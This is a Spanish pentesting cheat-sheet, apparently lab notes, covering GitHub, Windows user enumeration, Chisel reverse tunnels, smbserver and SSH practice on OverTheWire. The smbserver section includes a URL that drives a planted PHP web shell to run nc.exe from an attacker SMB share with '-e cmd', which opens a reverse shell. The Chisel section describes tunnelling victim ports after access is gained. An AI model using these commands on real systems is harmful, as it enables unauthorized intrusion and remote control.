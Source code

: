 
# ¿Qué es GitHub?

Github es un portal creado para alojar el código de las aplicaciones de cualquier desarrollador, y que fue comprada por Microsoft en junio del 2018.
La plataforma está creada para que los desarrolladores suban el código de sus aplicaciones y herramientas, y que como usuario no sólo puedas
descargarte la aplicación, sino también entrar a su perfil para leer sobre ella o colaborar con su desarrollo.

Git se utiliza también como sistemas de control, ya que permite comparar el código de un archivo para ver las diferencias entre las versiones, restaurar versiones
antiguas si algo sale mal, y fusionar los cambios de distintas versiones. También permite trabajar con distintas ramas de un proyecto, como la de desarrollo
para meter nuevas funciones al programa o la de producción para depurar los bugs.

Github permite que los desarrolladores alojen proyectos creando repositorios de forma gratuita. Pero hay que tener una cosa en mente, y es que para poder subir gratis
los proyectos deberán ser de código abierto. Y no quieres que tu aplicación sea de código abierto, la plataforma también tiene una versión de pago para alojar proyectos
de forma privada.


# rlwrap nc

Como añardir rlwrap a netcat para aplicar una shell interactiva.



# Comandos Terminal CMD Windows

## Ver Usuarios

Este comando tiene la tarea de enumerar todas las cuentas de usuario existentes en el sistema donde se incluyen la cuentas ocultas o cuentas de usuario deshabilitadas.
Estas cuentas de usuario se enumeran con su nombre interno asignado.

    net user
      
Podremos almacenar los resultados en un archivo de texto usando la siguiente sintaxis:

    net user > archivo.txt

También podemos indicar una ruta personalizada si así lo deseamos:
 
    net user > “ruta\archivo.txt
    
### Ver información detallada de un Usuaerio

Para obtener información mucho más detallada de un usuario del sistema, podemos ejecutar lo siguiente. Allí
vemos información precisa y completa sobre el usuario seleccionado.

    net user “usuario”

## Cambiar el nombre a un Archivo
    
Para cambiar el nombre de archivo2.txt por archivo3.txt, se puede usar el comando REN (o RENAME) escribiendo:

    REN archivo2.txt archivo3.txt 
    
    
# Crear un tunel con Chisel entre Linux y Windows:

##¿Qué es Chisel?

``Chisel es un túnel TCP/UDP rápido, transportado a través des servicio HTTP y protegido a través de SSH``. Esta escrito en Go  y utiliza el
protocolo de ``cliente`` a ``servidor``.  Chisel es principalmente útil para pasar a través de firewalls, aunque también se puede usar para 
proporcionar un punto final seguro en su red.

## Redireccionar puertos con Chisel a nuestra localhost:

Una vez hemos ganado acceso o tenemos la posibilidad de subir archivos y ejecutar comandos en el dispoditivo víctima, podemos crear un tunel
con ``chisel``. Mediante esta herramienta podremos establecer una conexión de ``cliente`` a ``servidor`` y conectar dos puertos entre si.
Básicamente conectamos un puerto de la máquina víctima con uno de nuestro equipo, de tal forma, que podemos ejecutar cualquier herramienta en 
local utilizando ese puerto, y automaticamente se redireccionara el ataque a la maquina victima.

### Establecer conexión por parte del Servidor (Linux):

En primer lugar, debemos de estabecer ``Chisel`` en modo ``Servidor`` en nuestro sistema Linux, para ello debemos de asegurarnos que la versión de
Chisel instalada es la adecuada para nuestra distribución. Para establecer nuestro sistema como servidor simplemente ejecutamos el siguiente comando
especificando el puerto que por el que vamos a establecer la conexión. Es importante que este puerto no se encutre en us.

    chisel serve --reverse --port [Puerto Local Conexión] 
    
    ./chisel serve --reverse -p [Puerto Local Conexión] 

``Ejemplo``

    chisel serve --reverse -p 8081

Aquí podemos ver como en el ejemplo hemos establecido un servicio de servidor con Chisel por el puerto 8081, este puerto es el que posteriormente
tendremos que especificar en el servicio por parte del Cliente para realizar la conexión.
    

### Establecer conexión por parte del Cliente (Windows):

Para establecer Chisel en un sistema Windows como ``Cliente``, nos descargamos la versión especifica para Windows (debemos de comprobar 
si el sistema es de 32 o 64 bits) y ejecutamos el siguiente comando. En el debemos especificar el puerto por el que vamos a comunicarnos 
con nuestro servicio ``Servidor`` y los puestos que vamos a comunicar entre si:


    .\chisel.exe client [Ip Local]:[Puerto de Conexión] R:[Puerto Víctima]:127.0.0.1:[Puerto Local]
    
``[Ip Local]``: Es la Ip de nuestro sistema Servidor. O en caso de estar conectados por VPN su Ip pública.  
    
``[Puerto de Conexión]``: Es el puerto establecido en la conexión con el Servidor. Debe ser el mismo puerto que especificado en el sistema Linux.  
    
``[Puerto Víctima]`` y ``[Puerto Local]``: El puerto Víctima pasará a ser el puerto local de nuestro local host 127.0.0.1.
    
    



---

# Crear recurso compartido con Smbserver:


    smbserver.py smbFolder $(pwd) -smb2support
    
    
De esta forma crearemos un recurso compartido a nivel de red que al cual podremos acceder desde cualquier navegador y pudiendo ver y compartir
archivos.

Para acceder a este recurso compartido simplemente escribimos nuestra Ip en el navegador seguido del nombre que le hemos dado a la carpeta compartida,
en este caso ``smbFolder``.

``Ejemplos``:

Mostrar con dir los recursos compartidos:
  
    http://10.10.10.198:8080/upload/kamehameha.php?telepathy=dir \\10.10.14.75\smbFolder\
    

Ejecutar nc.exe a través del navegador, tendremos que especificar una direccion y un puerto de escucha:

    http://10.10.10.198:8080/upload/kamehameha.php?telepathy=\\10.10.14.75\smbFolder\nc.exe -e cmd [Ip Atacante] [Puerto en Escucha]
    
    
---


    
# SSH

## Puerto predeterminado SSH:

La comunicación inalámbrica o por cable entre dos máquinas se realiza a través de puertos. Hay un total de 65,536 puertos de comunicación y la 
comunicación puede tener lugar a través de cualquiera de estos puertos. SSH se comunica por defecto a través del puerto 22. Cuando ejecutamos el 
comando anterior, la conexión entre el cliente local y el servidor se establece a través del puerto 22 y toda la comunicación se realiza a través 
de este puerto.

## Especificar puerto de conexión con SSH

En ocaciones, ``se puede modificar el puerto por el cual se conecta SSH``. En caso de no especificar ningún puerto SSH se conectará por defecto por
el puerto 22. En caso de querer especificar otro puerto lo podemo hacer con la opción ``-p`` seguido del puerto en cuestion.


    ssh [Usuario]@[Dirección] -p [Puerto]
    
    
# Ejemplo de conexión SSH:

Para realizar un ejemplo de como conectarno a otro equipo utilizando SSH vamos a utilizar la web ``https://overthewire.org``. Está página está 
enfocada en enseñar los parámetros básicos de Linux y SSH a través de distintos laboratorios. A estos laboratorios nos conetaremos a través de
SSH y la finalidad de cada practica es encontrar la flag secreta oculta en cada sistema. La flag encontrada es la contraseña para poder conectarnos
al siguiente nivel. 

En este ejemplo únicamente mostraremos como conectarnos a través de SSH, para ver todas practicas de ``OverTheWire`` podeís encontrarlas en la 
sección de Laboratorios.

En primer lugar abrimos la página oficial de Over The Wire:

Una vez abierta nos dirigimos al ``Nivel 0``:

Vemos como nos dice que el nombre del usuario es ``bandit0`` que la contraseña es ``bandit0`` también, la dirección es ``bandit.labs.overthewire.org``
y nos indica que debemos utilizar el ``puerto 2220``:

    ssh bandit0@bandit.labs.overthewire.org -p 2220 
    
Una vez ejeuctado el comando anterior, nos pedirá la contraseña.     





    
